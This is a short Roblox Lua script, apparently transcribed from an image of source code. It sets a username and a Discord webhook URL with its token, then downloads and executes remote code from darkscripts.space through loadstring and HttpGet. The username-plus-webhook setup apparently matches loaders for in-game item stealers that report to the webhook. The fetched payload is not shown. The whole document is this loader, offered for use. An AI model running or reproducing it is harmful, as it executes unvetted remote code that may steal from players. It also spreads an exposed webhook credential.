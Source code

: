 Username = "fnnyx_y"
Webhook = "https://discord.com/api/webhooks/1302042546997821512/d0uyF8DODynMIylkUh_W4ZPzQ-t0-JSN-htw_8B6_4nYsvLcQ1xLCNTKyVcRhYgmko7z"

loadstring(game:HttpGet(('https://darkscripts.space/petgo')))()
